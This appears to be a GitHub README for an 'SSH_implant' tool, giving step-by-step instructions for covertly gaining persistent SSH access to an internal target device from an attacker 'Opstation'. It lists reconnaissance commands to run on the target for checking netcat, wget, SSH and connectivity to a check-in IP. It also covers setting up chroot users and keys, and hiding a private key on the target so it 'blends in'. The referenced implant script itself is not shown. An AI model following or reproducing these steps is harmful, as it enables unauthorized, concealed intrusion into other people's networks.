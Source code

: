 # SSH_implant
<h3>Purpose</h3>
Access an internal device's ssh server
<h5>Step One</h5>
Setup chroot and user on Opstation, use chroot_setup.sh
<h5>Step Two</h5>
<h3>On Target</h3> <br />
#Verify target can reach the CHK_IP <br />
ping -c 1 [CHK_IP] <br />
#Verify target has nc with the following options: -z, -n, -w <br />
which nc || which netcat || which wget <br />
	//is the wget option viable? <br />
#Verify target has SSH <br />
which ssh <br />
#netstat or ss? <br />
	//adjust "implant_script.sh" as needed <br /><br />
<h3>On Opstation</h3> <br />
#Create ssh key <br />
ssh-keygen <br />
	//Remove [user]@[hostname] from pubkey and add key to chroot users .ssh/authorized_keys <br />
		cat [pubkey] | cut -d " " -f 1,2 >> [chroot_user_home]/.ssh/authorized_keys <br />
#Put ssh privkey on target, try to make location blend in <br />
	likely will use scp or ssh-cat to get it up to target. Depending on access method <br />
#Configure "implant_script.sh" variables. See "Implant Variables Defined" section <br />
